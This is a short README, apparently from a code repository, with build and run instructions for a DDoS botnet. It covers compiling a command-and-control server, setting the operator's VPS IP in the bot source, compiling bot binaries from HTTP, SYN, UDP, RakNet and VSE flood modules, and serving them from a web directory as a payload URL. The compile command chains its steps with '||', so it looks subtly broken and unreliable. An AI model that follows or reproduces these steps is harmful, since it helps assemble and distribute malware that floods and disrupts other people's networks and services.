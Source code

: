 # How to compile cnc?
-------------------------
- Run this:
sh buildcnc.sh
-------------------------
screen ./server <botport> <threads> <cncport>
-------------------------
example: screen ./server 1338 10 1337
-------------------------


# How to compile and run bot
- You should change change ip in bot/main.c to your vps ip and bot port screened already
- Run: sh legacybotbuilder.sh and bins will be put into /var/www/html
- Payload compile command: cd bot || gcc -o bot checksum.c daemon.c http_attack.c \
    raknet_attack.c socket_attack.c syn_attack.c udp_attack.c \
    vse_attack.c main.c -Wall || mv bot /var/www/html
- Your payload: http://yourvpsip/bot
